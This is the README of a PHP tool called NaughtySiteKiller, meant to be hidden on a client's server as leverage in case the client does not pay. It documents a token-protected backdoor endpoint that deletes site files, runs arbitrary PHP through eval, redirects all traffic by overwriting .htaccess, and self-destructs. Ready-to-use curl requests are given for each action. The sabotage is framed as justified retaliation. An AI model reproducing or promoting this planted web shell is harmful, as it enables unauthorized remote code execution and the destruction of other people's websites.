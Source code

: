 ## Is Your Client a Naughty Client?

### Naughty Killer Class

Ah, the joy of building a website for a "naughty" client who refuses to pay after getting full access to their cPanel. Don't fret! Instead of chasing them down, just drop the **NaughtySiteKiller** class on their server as a failsafe. This class lets you send HTTP requests to perform some rather *justifiable* actions on their website—whether it's deleting files, creating fake templates, or obstructing their site's content. It's the digital equivalent of "you won't pay? Fine, enjoy your broken website.

#### Key Features:
1. **Authentication**: Validates requests using Bearer or Basic token schemes.
2. **Token Generation**: Generate tokens from a password for authentication purposes.
3. **Action Handling**: Executes actions like `kill` (deletes files and self-destructs the script) and `template` (creates template files and updates `.htaccess`).
4. **Security**: Ensures that requests are authenticated by comparing the hashed token value.

---

### Usage Examples


Simply place the `NaughtySiteKiller` class on their server as an insurance measure. It supports token-based authentication and various actions like deleting files, creating templates, and updating `.htaccess` securely.

#### 1. Generating a Hashed Token

To authenticate requests, generate a token by hashing a password using the `sha256` algorithm. This token will be used for all incoming HTTP requests.

**Example**:
```php
$password = 'super_secret_password';
$token = \PeterUjah\NaughtySiteKiller::generateToken($password);  // Returns: "Bearer <hashed-password>"
```

Alternatively, you can directly hash the password:
```php
$password = 'super_secret_password';
echo hash('sha256', $password);  // Outputs the hashed token
```

---

#### 2. Handling the Incoming Request

Place the `NaughtySiteKiller` handler on the public directory of the website where it can be accessed through HTTP requests. This handler will process incoming requests, validate the authorization token, check the requested action (`kill`, `execute`, `template`, `self-key`), and execute the appropriate method.

**Example Usage**:
```php
// path/to/public_html/psk.php 
<?php
use \PeterUjah\NaughtySiteKiller;

$psk = new NaughtySiteKiller('<your-secure-bearer-hashed-token-here>');
try {
    $psk->run();  // Run the script based on incoming HTTP request
} catch (Exception $e) {
    $psk->response("Unknown error occurred: {$e->getMessage()}", 500);  // Handle errors
}
```

> **Note**: Replace `<your-secure-bearer-hashed-token-here>` with the hashed token you generated in the previous step.

---

### Payload Fields

The following fields can be included in the payload when sending a request:

```php
$request = [
    'action'      => 'kill', // Action to perform: 'kill', 'execute', 'template', or 'self-key'.
    'content'     => 'Content for the template, execute (used in both HTML and PHP files when performing kill action, or for template creation).',
    'htmlContents'=> 'Content for the template.html file (used when performing kill action).', // HTML content for the template.
    'phpContents' => 'Content for the template.php file (used when performing kill action).', // PHP content for the template.
    'name'        => 'Filename to use when performing template action.', // Custom filename for the template.
    'htaccess'    => 'Content for the .htaccess file (overwrites existing .htaccess).',
];
```

#### Explanation of Fields:

- **`action`** (string): Specifies which action to perform:
  - `'kill'`: Deletes files including self and creates `index.php` and `index.html` files (HTML and PHP).
  - `'execute'`: Execute a string as PHP code using `eval` function. The instructions should be placed in `contents`.
  - `'template'`: Creates template file `<name>.php` and modifies `.htaccess` to redirect all website request to `<name>.php` if no custom htaccess content is provided.
  - `'self-key'`: self-destructing, delete the handler file only.
  
- **`content`** (string): Content to include in the generated template files. Used for both HTML and PHP files during the `kill` action, or for the `template` action.

- **`htmlContents`** (string): Content to be placed in the `<template-name>.html` file when performing the `kill` action.

- **`phpContents`** (string): Content to be placed in the `<template-name>.php` file when performing the `kill` action.

- **`name`** (string): The name of the template file to use when performing the `template` action. Default is `__template.php` if not specified.

- **`htaccess`** (string): The content for the `.htaccess` file. This will overwrite any existing `.htaccess` file during the `template` action. If not provided it will use default to redirect requests to the `<template-name>.php`.

---

### Payload Requests Examples

Here are examples of how to send payload requests using `curl` for the different actions (`kill`, `template`, and `self-key`), including the Bearer token in the header.

### 1. Kill Action Request (Deletes all files and creates template files)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "kill",
           "phpContents": "<?php echo \"Hello, World!\"; ?>",
           "htmlContents": "<html><body><h1>Hello, World!</h1></body></html>"
        }'
```

---

### 2. Execute Action (Run custom code on the server—because we trust you)

The Execute Action allows you to send custom PHP code to be executed on the server. It's like a magic wand for your commands.

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "execute",
           "contents": "return \"Hello, Naughty Client!\";"
        }'
```

**Output:**

This will execute the PHP code and you will receive the following response:

```php
{
    "message": "Execution completed",
    "result": "Hello, Naughty Client!"
}
```

---

#### Explanation:

- `action`: Set to `"kill"` to trigger the kill action.
- `phpContents`: Content for the `template.php` file.
- `htmlContents`: Content for the `template.html` file.

### 3. Template Action Request (Creates template files and updates `.htaccess`)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "template",
           "content": "<?php echo \"Welcome to the template!\"; ?>",
           "name": "custom_template.php",
           "htaccess": "RewriteEngine On\nRewriteRule ^.*$ custom_template.php [L,QSA]"
        }'
```

#### Explanation:

- `action`: Set to `"template"` to create a template file and update `.htaccess`.
- `content`: Content for the template (PHP code).
- `name`: Custom name for the template file (`custom_template.php`).
- `htaccess`: Custom `.htaccess` content to redirect all requests to the template.

---

### 4. **Self-Key Action Request (Reserved for future use)**

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "self-key"
        }'
```

#### Explanation:
- `action`: Set to `"self-key"`, delete the handler file only.

---

### Notes:
- **Authorization**: Replace `YOUR_BEARER_TOKEN` with the actual Bearer token you are using for authentication.
- **Server URL**: Replace `http://your-server-url/naughty.php` with the actual URL of your script.
- **Payload**: The payload for each action is sent as JSON in the body of the request using the `-d` flag with `curl`.
